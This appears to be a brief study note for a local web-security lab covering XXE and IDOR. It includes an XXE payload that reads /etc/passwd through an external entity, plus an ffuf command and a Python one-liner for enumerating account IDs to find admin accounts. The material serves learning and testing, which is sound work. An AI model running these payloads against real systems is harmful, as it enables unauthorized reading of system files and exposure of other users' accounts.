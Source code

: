 # XXE and IDOR

### XXE - External Entities Injection

Additional payloads at [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)

xxe-safe.xml

```
<?xml version="1.0" encoding="UTF-8"?>
<creds>
    <user>testuser</user>
    <password>testpass</password>
</creds>
```

Example XML entities:

https://portswigger.net/web-security/xxe/xml-entities

`&lt;` < less than
`&gt;` > greater than
`&amp;` & ampersand

xxe-exploit.xml

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE creds [
<!ELEMENT creds ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds><user>&xxe;</user><password>pass</password></creds>
```

External entity `xxe` references the /etc/passwd file and will pass the value into user tag, displaying the 
file to the user

### IDOR - Insecure Direct Object Reference

BOLA in APIs

Exposed id's of various objects can be changed to access unauthorized objects

The following will display a normal user

`http://localhost/labs/e0x02.php?account=1009`

Changing the id to 1010 will show an admin's account details

Generate an id file with python

`python3 -c 'for i in range(1,2001): print(i)' > num.txt`

Use ffuf to find valid ids

`ffuf -u 'http://localhost/labs/e0x02.php?account=FUZZ' -w num.txt -fs failed-response-length`

Write script to find all admin type users from discovered user ids
